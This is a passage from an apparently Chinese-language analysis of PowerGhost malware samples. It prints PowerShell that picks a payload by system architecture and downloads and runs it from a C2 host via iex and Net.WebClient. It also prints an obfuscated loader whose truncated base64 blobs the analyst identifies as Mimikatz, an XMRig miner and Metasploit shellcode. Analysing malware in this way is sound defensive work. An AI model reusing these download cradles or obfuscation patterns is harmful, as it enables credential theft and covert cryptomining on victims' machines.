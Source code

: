 127-131 行根据系统架构不同，下载执行不同的恶意文件：

- 32 位：`/w/antitrojan.ps1`
- 64 位：`/w/antivirus.ps1`

```powershell linenums="127"
if ((geT-WmIObjECt Win32_OperatingSystem).osarchitecture.contains('32')){
    iex(new-object Net.WebClient).DownloadString("http://$nic/w/antitrojan.ps1")
}else{
    iex(new-object Net.WebClient).DownloadString("http://$nic/w/antivirus.ps1")
}
```

## antitrojan.ps1

原始样本：[antitrojan.ps1](https://github.com/13m0n4de/powerghost-malware-samples/blob/main/samples/antitrojan.ps1)

```powershell linenums="1"
$miiiiii="TVqQAAMAAAAEAAAA//8AALgAAAA..."
$mmmmmmm="TVqQAAMAAAAEAAAA//8AALgAAAA..."
$fffffff="KE5ldy1vYkpFQ3QgaW8uc1RSRUF..."
$ssssssss="McBAD4RTBAAAYOgAAAAAW+gjAA..."
 if($args.count -gt 0){
    $defun=[System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String($fffffff))
    I`EX $defun
    Invoke-Command -ScriptBlock $RemoteScriptBlock -ArgumentList @($mmmmmmm, $mmmmmmm, 'Void', 0, '', '')
    return
}
 iEx ([STrIng]::joIN('', ('28s4eH45r77...'-sPLit 'I'-SPLiT '@' -SPLIt 'r'-sPLiT';'-SpliT 'j' -sPlIT 'W' -SpLiT's' -sPLiT 'H' | ForEACh-OBJEcT { ( [CHaR] ( [CoNveRt]::TOInT16(($_.TOSTRINg()),16))) })) )
```

- `$miiiiii` 解码之后是 PE 文件，[VirusTotal 报告为 Mimikatz](https://www.virustotal.com/gui/file/be3414602121b6d23fc06edb6bd01ad60b584485266120c242877bbd4f7c8059)。
- `$mmmmmmm` 解码之后是 PE 文件，[VirusTotal 报告为 XMRig](https://www.virustotal.com/gui/file/50b4458f5c8375af54f1dbef8e1fd5dbfc3c56ed91ae9f4dff9b89a65f3e3986)。
- `$fffffff` 解码之后是 PowerShell 文件，含有多种利用函数
- `$ssssssss` 解码之后是 ShellCode 文件，[VirusTotal 报告为 Metasploit](https://www.virustotal.com/gui/file/50b4458f5c8375af54f1dbef8e1fd5dbfc3c56ed91ae9f4dff9b89a65f3e3986)
- 如果执行时没有任何命令行参数，则运行 `$fffffff` 漏洞利用函数和 `$mmmmmmm` 挖矿软件，否则运行 `antitrojan.ps1` 本体（第 11 行）

本体的混淆方式与[vercheck.ps1 的混淆方式](#vercheckps1)一致，反混淆过程省略。

反混淆后的样本：[antitrojan.ps1](https://github.com/13m0n4de/powerghost-malware-samples/blob/main/deobfuscated/antitrojan.ps1)。

1-76 行与 `vercheck.ps1` 的 31-106 行一模一样，通过 ping 检查可以连接的 C2 服务器。

77-82 行，如果当前系统是 64 位的，选择下载执行 `/w/antivirus.ps1`。

同理，我猜测 `antivirus.ps1` 中也会判断系统是否是 32 位，并选择下载执行 `/w/antitrojan.ps1`。

这种设计可能是为了确保恶意脚本与目标系统架构相匹配。
